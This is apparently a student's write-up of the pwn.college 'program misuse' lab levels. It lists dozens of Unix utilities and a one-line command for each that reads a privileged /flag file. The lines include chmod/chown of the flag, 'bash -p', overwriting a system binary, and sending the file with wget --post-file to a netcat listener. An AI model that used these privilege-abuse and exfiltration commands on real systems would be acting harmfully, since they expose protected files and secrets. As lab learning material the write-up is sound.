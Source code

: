 # pwn-college-writups-fundamentals-program-misuse  

more  
less  
tail  
head  
cat  
emuc  
vim  
nano  
rev — prints reverse text of the file  
od — prints the octal format of the text  
hd — gives a hex dump of the file  
xxd — produces three-column output by default: file offsets, the data in hex, and the data as text  
base32 — prints base32 encoded text  
base64 — prints base64 encoded text  
split — splits larger files into smaller files which would have higher permissions  
gzip — zips the file — can be read with zcat command  
bzip2 — bzips the given file — can be read by bzgrep command  
zip — zips the file — read by zgrep  
tar — zips the file in a different format — read by tar xvf file.tar.gz -O | grep "text”  
ar — a Unix utility that maintains groups of files as a single archive file — can be read by — ar pv super.a
# Level24-32
$ env — controls the environment variable — can be read by env -i [command] [if needed commandfile] ( env DEBUG=1 cat /flag )

$ printf "solve:\n\tcat /flag" > tmp.makefile
  make -f tmp.makefile solve
$ nice -n 1 cat /flag 
$timeout — utility that runs a specified command and terminates it if it is still running after a given period of time. — can read files when the command is given — timeout 5 [command] [file]  
$ stdbuf — Run a command with modified I/O stream buffering — can read files by stdbuf -oL [command]  
$ setarch — change reported architecture in new program environment or set personality flags — files can be read by setarch --addr-no-randomize [command]
$ watch -x -b cat /flag 
$ socat -u file:/flag - (- means that print the content to stdout)
# Level 33-36
whiptail --textbox /flag 10 100   

awk '{print}'  /flag 

sed "/[[:space:]]/d" /flag 

ed -G /flag
# Level37-41
chown hacker /flag 

chmod 777 /flag 

cp /flag /dev/stdout (copy the content of the file flag to stdout)

mv /usr/bin/cat /usr/bin/mv  && mv /flag
# Level41-44: perl, python, ruby, bash
bash — shell scripting language — bash privilege can be maintained by — bash -p
# Level45-49: date, dmesg(Display or control the kernel ring buffer.), wc,gcc, as

date — gives the current date and time — can be used to read files by — date -f [filename]  
dmesg -print or control the kernel ring buffer — can be used to read files — by dmesg -F [filename]  
wc — print newline, word, and byte counts for each file — can be used to read files by — wc -files0-from=[filename]  
gcc — GNU project C and C++ compiler — Can be used to read a file by — gcc -x c -E "filename"  
AS — the portable GNU assembler — can be used to read files by — as @[filename]  
# Level 50  
wget --header="Content-type: multipart/form-data boundary=FILEUPLOAD" --post-file /flag http://127.0.0.1:4554/  
and set up a listener with nat cat  
nc -vlnp 4554  
and get the flag
